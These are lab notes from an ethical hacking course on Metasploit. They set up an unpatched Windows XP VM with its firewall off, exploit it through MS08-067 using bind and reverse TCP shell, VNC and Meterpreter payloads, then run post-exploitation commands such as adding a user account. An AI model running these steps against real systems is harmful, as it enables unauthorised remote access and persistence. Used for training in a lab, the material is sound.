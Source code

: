 # EHD Practical 10 - Metasploit

###### tags: #EHD 

## Table of Contents
```toc
```

## Setting Up a Target Vulnerable to MS08-067
**On Host PC**
1. Search the Internet for information about the Microsoft Security Bulletin MS08-067 and take note of the 6-digit knowledge base number
2. For this practical, the WinXP VM  is required

**On WinXP VM**
3. Go to the Control Panel and **Add or Remove Programs**
4. Check the box **Show Updates**. The list of installed programs and software updates will be displayed
5. Search the list of security updates for ones containing the Knowledge Base numbers 958644  or 2705219 of the MS08-067 or MS12-054 security bulletins. If the updates are listed on WinXP, remove them and restart the computer

> If not, WinXP is not patched against the MS08-067 vulnerability

6. Go to the Control Panel > Security Center
7. Under Manage Security Settings, select **Windows Firewall** and turn it off. The WinXP is now a vulnerable target

## Using the Metasploit Console
**On Kali VM**
> <u>Activating the Metasploit console:</u>
> - Click the Kali icon > 08 Exploitation Tools > Metasploit framework
> - Run `msfconsole` on the terminal

- To see all possible commands, type `help` at the `msf` prompt
- To see list of exploits, type `show exploits`
	- List of exploits and CVE numbers will be displayed
- To search for exploits related to SMB, type `search smb`
- To search for exploits related to MS08-067, type `search ms08_067`

1. Look for info on the exploit `ms08_067_netapi` and use it
```
info windows/smb/ms08_067_netapi
use windows/smb/ms08_067_netapi
```
2. At the exploit prompt, type `show options`
3. Set a remote host to target (RHOST)
```
set RHOST WinXP-IP
```
4. Type `show options` to view the RHOST set
5. To check which payloads can be used for a certain exploit, type the following command:
```
show payloads
```
6. View info on the payload `windows/shell/bind_tcp` and set it:
```
info windows/shell/bind_tcp
set windows/shell/bind_tcp
```
7. Type `show options` to view the options set for the payload
8. Run the exploit:
```
exploit
```

> If the exploit is successful, a remote connection will be established to the command prompt of the Windows XP VM
> - Run `dir` to list all files on the remote target
> - Type `set` to see list of current environment variables
> - To create a new user: `net user username password /add`

9. To quit from the remote connection, press <kbd>Ctrl</kbd>+<kbd>C</kbd>

## Using Reverse TCP Payload
> In the previous exploit, Kali creates a connection to the unpatched WinXP, but if the firewall on WinXP is enabled, Kali is unable to connect to WinXP
> To address this problem, the payload `reverse_tcp` tells the victim to connect to the attacker (Kali VM) as WinXP as WinXP is the one initiating the connection, hence the firewall will allow it

**On Kali VM**
1. Set the payload to `reverse_tcp`
```
set payload windows/shell/reverse_tcp
```
2. Type`show options` to see the options set
3. Specify the listening host (LHOST) that the victim should connect to
```
set LHOST Kali-IP
```
4. Run the exploit:
```
exploit
```

**On WinXP VM**
5.  On the Command Prompt, type the following to <u>view the connection Metasploit has made to the attacker system:</u>
```
netstat -an
```

## Using VNC Payload
**On Kali VM**
1. Try the exploit with the following payload:
```
set payload windows/vncinject/reverse_tcp
```
2. Type `show options` to see options set
3. Run the exploit
```
exploit
```

## Using Meterpreter
**On Kali VM**
1. Try the exploit with the following payload:
```
set payload windows/meterpreter/reverse_tcp
```
2. Type  `show options` to see options set
3. Run the exploit
```
exploit
```
4. Type `help` at the Meterpreter prompt to see all available commands
5. Type `ps` to see list of processes running on the WinXP VM
6. Type `screenshot` to take a screenshot of the WinXP VM